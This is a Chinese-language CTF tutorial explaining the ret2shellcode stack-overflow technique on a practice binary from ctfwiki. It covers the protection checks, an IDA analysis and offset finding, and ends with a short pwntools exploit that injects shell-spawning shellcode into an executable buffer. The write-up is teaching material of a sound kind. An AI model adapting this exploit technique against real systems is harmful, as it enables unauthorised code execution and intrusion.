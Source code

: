 <a name="b6724cff"></a>
## 原理

 ret2shellcode，当程序当中没有system函数时，我们需要自己往栈上写入一段shellcode，然后控制eip使其指向shellcode的地址。

**shellcode** 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。

在栈溢出的基础上，要想执行 shellcode，需要对应的程序在运行时，shellcode 所在的区域具有可执行权限。即必须关闭堆栈不可执行功能。<br />![](https://img-blog.csdnimg.cn/20210221153712915.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=bPkJ5&originHeight=386&originWidth=728&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="039336d4"></a>
## 例题（来自ctfwiki）：

<a name="562b019f"></a>
### 首先checksec：

![](https://img-blog.csdnimg.cn/20210221153736960.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=o1F0N&originHeight=165&originWidth=376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)<br />发现程序没有开启任何保护，并且存在可读可写可执行段。

<a name="d8a8823b"></a>
### 然后ida32打开：

![](https://img-blog.csdnimg.cn/2021022115385818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=M9jEX&originHeight=271&originWidth=690&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)首先观察到程序没有system函数，并且存在可读可写可执行段，存在栈溢出漏洞，考虑是ret2shellcode。<br />程序逻辑非常简单，通过gets函数读入数据给v4，然后再将v4的值复制到buf2中，而buf2正好处于可读可写可执行段中，所以shellcode的地址应该是buf2的地址。

![](https://img-blog.csdnimg.cn/202102211539177.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=SsAxY&originHeight=133&originWidth=804&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

通过cyclic确定需要填入的垃圾数据大小为112。

<a name="4f7d0e2b"></a>
### 思路：

首先向程序中写入shellcode，然后再填入垃圾数据，**shellcode和垃圾数据的大小之和为112**，可使用ljust方法，然后写入返回地址，程序写入后会被复制到buf2中，buf2的地址为0x804a080。

<a name="a3e6be45"></a>
### exp：

```python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#生成shellcode
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
#先写入shellcode，剩余位置用A补齐
sh.interactive()
```
